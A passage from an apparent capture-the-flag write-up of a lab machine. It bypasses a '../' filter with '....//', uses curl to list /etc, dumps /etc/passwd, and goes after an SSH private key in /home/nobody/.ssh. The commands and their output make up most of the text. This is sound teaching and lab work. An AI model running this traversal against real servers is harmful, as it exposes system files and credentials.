 And our test script proves that `....//` pattern works since only the middle
`../` is filtered out leaving the outer `..` and `/` behind to make `../`!

Let's try it against the actual script on the server..

```
$ curl -X POST http://10.10.10.87:80/dirRead.php -d "path=....//....//....//etc/"
[".","..","TZ","alpine-release","apk","ca-certificates","ca-certificates.conf","conf.d","crontabs","default","environment","fstab","group","group-","hostname","hosts","init.d","inittab","issue","localtime","login.defs","logrotate.d","modprobe.d","modules","modules-load.d","motd","mtab","network","nginx","opt","os-release","pam.d","passwd","passwd-","periodic","php7","profile","profile.d","protocols","resolv.conf","securetty","security","services","shadow","shadow-","shells","ssh","ssl","supervisor","supervisord.conf","sysctl.conf","sysctl.d","terminfo","udhcpd.conf","vim"]
```

And there we have it.. we are able to perform a directory listing on `/etc`! Let's
use `fileRead.php` to dump `/etc/passwd`..

```
$ curl -X POST http://10.10.10.87:80/fileRead.php -d "file=....//....//....//etc/passwd"
{"file":"root:x:0:0:root:\/root:\/bin\/ash\nbin:x:1:1:bin:\/bin:\/sbin\/nologin\ndaemon:x:2:2:daemon:\/sbin:\/sbin\/nologin\nadm:x:3:4:adm:\/var\/adm:\/sbin\/nologin\nlp:x:4:7:lp:\/var\/spool\/lpd:\/sbin\/nologin\nsync:x:5:0:sync:\/sbin:\/bin\/sync\nshutdown:x:6:0:shutdown:\/sbin:\/sbin\/shutdown\nhalt:x:7:0:halt:\/sbin:\/sbin\/halt\nmail:x:8:12:mail:\/var\/spool\/mail:\/sbin\/nologin\nnews:x:9:13:news:\/usr\/lib\/news:\/sbin\/nologin\nuucp:x:10:14:uucp:\/var\/spool\/uucppublic:\/sbin\/nologin\noperator:x:11:0:operator:\/root:\/bin\/sh\nman:x:13:15:man:\/usr\/man:\/sbin\/nologin\npostmaster:x:14:12:postmaster:\/var\/spool\/mail:\/sbin\/nologin\ncron:x:16:16:cron:\/var\/spool\/cron:\/sbin\/nologin\nftp:x:21:21::\/var\/lib\/ftp:\/sbin\/nologin\nsshd:x:22:22:sshd:\/dev\/null:\/sbin\/nologin\nat:x:25:25:at:\/var\/spool\/cron\/atjobs:\/sbin\/nologin\nsquid:x:31:31:Squid:\/var\/cache\/squid:\/sbin\/nologin\nxfs:x:33:33:X Font Server:\/etc\/X11\/fs:\/sbin\/nologin\ngames:x:35:35:games:\/usr\/games:\/sbin\/nologin\npostgres:x:70:70::\/var\/lib\/postgresql:\/bin\/sh\ncyrus:x:85:12::\/usr\/cyrus:\/sbin\/nologin\nvpopmail:x:89:89::\/var\/vpopmail:\/sbin\/nologin\nntp:x:123:123:NTP:\/var\/empty:\/sbin\/nologin\nsmmsp:x:209:209:smmsp:\/var\/spool\/mqueue:\/sbin\/nologin\nguest:x:405:100:guest:\/dev\/null:\/sbin\/nologin\nnobody:x:65534:65534:nobody:\/home\/nobody:\/bin\/sh\nnginx:x:100:101:nginx:\/var\/lib\/nginx:\/sbin\/nologin\n"}
```

.. and we discover our target user appears to be `nobody` with UID `65534`!

### OWN USER

Let's see what we can find out user `nobody`..

```
$ curl -X POST ht/dirRead.php -d "path=....//....//....//home/nobody"
[".","..",".ash_history",".ssh",".viminfo","user.txt"]
```

.. we find out `user.txt`, but note earlier that we aren't able to use
`fileRead.php` to dump it since there was a line of code preventing us. We see
however, a `.ssh` directory that contains a file called `.monitor`` file which
appears to be a `ssh` private key!

```
$ curl -X POST http://10.10.10.87:80/fileRead.php -d "file=....//....//....//home/nobody/.ssh/.monitor"
```